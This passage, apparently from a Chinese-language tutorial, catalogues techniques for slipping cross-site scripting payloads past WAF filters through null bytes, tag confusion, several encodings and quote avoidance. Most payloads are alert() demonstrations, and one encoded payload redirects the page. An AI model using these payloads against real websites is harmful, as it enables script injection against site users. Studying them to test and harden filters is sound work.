 **%00截断绕过**
```js
<a href=javascr%00ipt:alert(1)>xss</a>
```

**其它字符混淆**

有的 waf 可能是用正则表达式去检测是否有 xss 攻击,如果我们能 fuzz 出正则的规则,则我们就可以使用其它字符去混淆我们注入的代码了,举几个简单的例子

可利用注释、标签的优先级等
```js
<<script>alert("xss");//<</script>
<title><img src=</title>><img src=x onerror="alert(`xss`);"> //因为 title 标签的优先级比 img 的高,所以会先闭合 title,从而导致前面的 img 标签无效
<SCRIPT>var a="\\";alert("xss");//";</SCRIPT>
```

**编码绕过**
```js
实体编码
javascrip&#x74;:alert(1) 十六进制
javascrip&#116;:alert(1) 十进制

Unicode编码绕过
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;&#59;">

<img src="x" onerror="eval('\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029\u003b')">

url编码绕过
<img src="x" onerror="eval(unescape('%61%6c%65%72%74%28%22%78%73%73%22%29%3b'))">

<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>

Ascii码绕过
<img src="x" onerror="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))">

hex绕过
<img src=x onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>

八进制
<img src=x onerror=alert('\170\163\163')>

base64绕过
<img src="x" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">

<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
```

**过滤双引号,单引号**

```js
1.如果是html标签中,我们可以不用引号.如果是在js中,我们可以用反引号代替单双引号
<img src="x" onerror=alert(`xss`);>
2.使用编码绕过,具体看上面我列举的例子,我就不多赘述了
```
